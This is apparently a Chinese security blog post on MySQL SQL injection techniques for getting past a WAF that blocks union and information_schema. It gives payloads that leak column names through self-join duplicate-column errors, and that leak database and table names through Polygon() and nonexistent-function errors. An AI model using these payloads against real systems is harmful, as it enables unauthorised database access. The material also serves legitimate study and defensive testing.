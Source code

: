 ```yaml
---
layout: post
title: SQLI的join用法
categories: [web,sql]
---
```

## 已知某个地方有注入，waf拦截了information_schema、columns、tables、database、schema、union等关键字或函数，我们如何去获取当前表名，字段名和库名呢？

### 字段名

常见的做法有利用union搭配别名子查询，在不知道字段的时候进行注入。

例如：

```mysql
select * from test where id =1 union select (select e.4 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from test)e limit 1 offset 3)f,(select 1)g,(select 1)h,(select 1)i;
```

但是如果再进行限制,不允许使用union 该怎么破呢？

如下

```mysql
select name from test where id=1 and (select * from (select * from test as a join test as b) as c);
```

可以看到mysql返回一个报错如下：

把当前表第一个字段成功爆出来了。

这个的原理就是在使用别名的时候，表中不能出现相同的字段名，于是我们就利用join把表扩充成两份，在最后别名c的时候 查询到重复字段，就成功报错。

同时，可以利用using爆其他字段

```mysql
select name from test where id=1 and (select * from (select * from test as a join test as b using(id)) as c);
```

### 表名

翻阅mysql的文档发现了一个非常好玩的函数

Polygon(ls1, ls2, ...)

Polygon从多个LineString或WKB LineString参数 构造一个值 。如果任何参数不表示LinearRing（也就是说，不是一个封闭和简单的LineString），返回值就是NULL

  如果传参不是linestring的话，就会爆错，而当如果我们传入的是存在的字段的话，就会爆出已知库、表、列。

### 库名

上面的方法已经可以爆出库名了，但是如果我无限限制payload长度又如何？ 比如 四字节？

select * from users where uid =1-a();

库名成功出来了，原理：一个库中存在不同的系统或自定义函数，如果函数不存在，他就会爆出这个库没有此函数。
